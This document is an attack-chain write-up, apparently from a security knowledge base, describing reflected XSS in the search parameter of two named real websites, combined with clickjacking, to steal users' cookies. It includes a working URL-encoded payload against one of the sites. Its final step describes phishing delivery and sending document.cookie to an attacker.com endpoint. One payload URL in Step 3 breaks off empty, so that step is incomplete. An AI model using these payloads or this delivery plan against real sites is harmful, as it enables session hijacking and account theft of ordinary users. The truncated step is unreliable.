

# Reflected XSS in Search Parameter with Clickjacking for Cookie Theft on Meredith Domains

Multi-stage attack chain demonstrating exploitation of reflected XSS in the 's' search parameter on marthastewart.com and bhg.com, combined with the absence of X-Frame-Options headers, to enable clickjacking and steal user cookies. The attack tricks victims into interacting with a malicious iframe that injects and executes JavaScript payloads, leading to session hijacking and potential phishing or malware distribution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome Developer Tools for payload testing)
- Text editor for creating HTML POC files

### Target Environment

- Web platform
- Access to public-facing websites: https://marthastewart.com and https://bhg.com
- No authentication required

### Initial Access Requirements

- Internet access to the target domains
- No prior credentials or network position needed; attack is client-side

## Detailed Attack Procedures

### Step 1: Access Vulnerable Search Endpoint
procedure: [[procedures/Access-Vulnerable-Search-Endpoint]]

**Objective**: Navigate to the search pages where the 's' parameter is vulnerable to reflected XSS.

**Instructions**: Open a web browser and directly access the shop search URLs on the target domains. Use the browser's address bar to load the pages and inspect the search functionality.

**Expected Output**: The shop/all.html page loads with a search input reflecting the 's' parameter.

**Success Indicators**:
- Page loads without errors
- Search parameter is visible in the URL

### Step 2: Inject Reflected XSS Payload
procedure: [[procedures/Inject-Reflected-XSS-Payload]]

**Objective**: Test and confirm reflected XSS by injecting a JavaScript payload into the 's' parameter.

**Instructions**: Append a URL-encoded XSS payload to the 's' parameter in the URL. For example, load https://bhg.com/shop/all.html?s=%E2%80%98);%3C/script%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E and observe if the alert box pops up displaying cookies.

**Expected Output**: JavaScript alert executes, showing document.cookie contents.

**Success Indicators**:
- Alert dialog appears
- No sanitization blocks the script tag

### Step 3: Test XSS Payload Variations
procedure: [[procedures/Test-XSS-Payload-Variations]]

**Objective**: Experiment with payloads to enhance cross-domain exploitation, such as accessing document.domain.

**Instructions**: Modify the payload in the 's' parameter to include advanced JavaScript, e.g., https://marthastewart.com/shop/all.html?s=, and test for execution across domains.

**Expected Output**: Payload executes, potentially revealing domain information for further chaining.

**Success Indicators**:
- Different payloads trigger without errors
- Cross-domain effects are observable

### Step 4: Verify Clickjacking Vulnerability
procedure: [[procedures/Verify-Clickjacking-Vulnerability]]

**Objective**: Confirm the lack of frame-busting protections to enable iframe embedding.

**Instructions**: Use browser developer tools to check response headers for X-Frame-Options on the vulnerable URLs. Attempt to embed the page in a local HTML iframe and verify it loads without restrictions.

**Expected Output**: No X-Frame-Options header present; iframe loads the target page.

**Success Indicators**:
- Headers inspection shows missing protections
- Iframe embedding succeeds

### Step 5: Develop Clickjacking POC HTML
procedure: [[procedures/Develop-Clickjacking-POC-HTML]]

**Objective**: Create malicious HTML files that iframe the vulnerable page and overlay elements to trick user clicks into submitting the XSS payload.

**Instructions**: Write POC1.html and POC2.html using a text editor. Include an iframe src pointing to the vulnerable URL with the XSS payload, and position transparent overlays to simulate legitimate interactions.

**Expected Output**: HTML files that, when opened, display a clickjacked interface triggering XSS.

**Success Indicators**:
- POC loads and iframes the target
- Overlay tricks interaction leading to payload injection

### Step 6: Deliver POC and Steal Cookies
procedure: [[procedures/Deliver-POC-and-Steal-Cookies]]

**Objective**: Distribute the POC to victims and exfiltrate stolen cookies to an attacker-controlled server.

**Instructions**: Host the POC HTML on a phishing site or send via email. Modify the XSS payload to send document.cookie to an endpoint like http://attacker.com/steal?cookie= + encodeURIComponent(document.cookie).

**Expected Output**: Victim interaction executes XSS, sending cookies to attacker server.

**Success Indicators**:
- Cookies received on attacker endpoint
- Session hijacking possible with stolen data

## Attack Chain Summary

### Key Achievements

1. Confirmed reflected XSS in search parameter allowing arbitrary JS execution.
2. Exploited missing clickjacking protections for stealthy delivery.
3. Enabled cookie theft across two domains, leading to account compromise.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2024-01-01T00:00:00Z*
